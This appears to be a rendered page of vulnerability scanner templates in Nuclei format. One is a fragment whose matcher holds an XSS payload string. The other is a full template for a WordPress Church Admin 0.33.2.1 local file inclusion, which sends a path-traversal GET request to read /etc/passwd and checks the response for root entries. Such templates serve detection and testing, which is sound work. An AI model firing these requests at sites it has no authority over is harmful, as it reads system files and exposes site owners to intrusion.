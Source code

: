 ### Matchers

**Type - word**

- part - body
- words
  1. \<img src=x onerror=alert(document.domain)>&action=edit
  2. All Posts\</a>
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Church Admin 0.33.2.1 - Local File Inclusion

## Description

- WordPress Church Admin 0.33.2.1 is vulnerable to local file inclusion via the "key" parameter of plugins/church-admin/display/download.php.
- severity - high
- tags - wordpress,wp-plugin,lfi,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/church-admin/display/download.php?key=../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---